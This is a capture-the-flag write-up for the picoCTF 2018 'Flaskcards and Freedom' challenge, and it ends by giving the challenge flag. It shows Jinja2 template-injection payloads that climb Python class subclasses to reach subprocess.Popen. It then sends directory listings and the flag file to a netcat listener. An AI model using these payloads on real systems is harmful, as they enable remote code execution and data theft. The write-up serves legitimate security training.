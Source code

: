 > Flaskcards and Freedom - Points: 900 - (Solves: 150)
> There seem to be a few more files stored on the flash card server but we can't login. Can you? http://2018shell1.picoctf.com:56944 (link)

By testing around the website we find that it is vulnerable to template injection.

Some of the payloads showing it is possible to use template injection to exploit the site:
```
{{config}}

{{self}}

{{''.__class__.__mro__[1].__subclasses__()}}
```


Since we have access to classes, we're able to call subprocess.Popen to get remote code execution and execute code on the server. We use this to extract data over netcat.
To exploit, replace `0.0.0.0` with the ip of your listener.

```
# subrocess.Popen
{{''.__class__.__mro__[1].__subclasses__()[304]}}

{{''.__class__.__mro__[1].__subclasses__()[304]('ls | nc 0.0.0.0 4444', shell=True)}}


{{''.__class__.__mro__[1].__subclasses__()[304]('cat flag | nc 0.0.0.0 4444', shell=True)}}
```


Flag: `picoCTF{R_C_E_wont_let_me_be_85e92c3a}`


